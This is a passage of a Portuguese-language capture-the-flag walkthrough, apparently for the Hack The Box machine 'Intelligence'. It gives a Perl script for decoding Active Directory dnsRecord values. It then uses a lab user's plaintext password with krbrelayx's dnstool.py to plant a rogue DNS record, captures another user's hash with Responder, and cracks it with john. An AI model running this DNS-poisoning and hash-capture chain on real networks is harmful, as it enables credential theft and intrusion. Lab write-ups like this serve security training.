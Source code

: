  
 
 Aqui vale ressaltar que quando fui fazer o registro de DNS, notei que ocampo recordDns estava em base 64. Quando decodado, aainda sim não aparecia um IP address, as sim caracteres estranhos. Sendo assim, com uma pesquisa a respeito do assunto, notei que tem um formato específico essa informação conforme dcocumentação da microsoft que pode ser encontrada em:
 
 https://msdn.microsoft.com/en-us/library/ee898781.aspx

Com as orientações desse post aqui:
 
 https://perlmonks.org/index.pl?node_id=1152619
 
 copiei o script deste post e fiz o decode:
 
 ![qownnotes-media-MTKZsl](../../../media/qownnotes-media-MTKZsl.png)

    
    #!/usr/bin/perl
    
    # Prints data from "dnsRecord" AD attribute
    
    # adapted from script by natxo, VinsWorldcom and choroba
    # found on http://perlmonks.org/index.pl?node_id=1152619
    # not much tested
    
    use Socket;
    my $out = $ARGV[0];
    
    print (unpack "H*", $out);
    print "\n";
    print substr ((unpack "H*", $out), -8);
    print "\n";
    print inet_ntoa(substr $out, -4);
 
Detalhe que tem uma ferramenta que me auxiliou com relação a colocar um novo registro de DNS na máquina que pode ser obtida no seguinte git:

    https://github.com/dirkjanm/krbrelayx.git

É iimportante mencionar que essa ferramenta depende do impacket, que já está instalado na máquina e, nesse caso bastou eu executar o seguinte comando para inserir o registro lá:

    python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -r webfakedomain.intelligence.htb -d 10.10.14.2 10.10.10.248
 
Feito isso, bastou subir o responder com o seguinte comando para obter a hash do Ted.Graves:


    sudo responder -I tun0 -A

copiei e colei o hash obtido no responder e quebrei com o john

    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
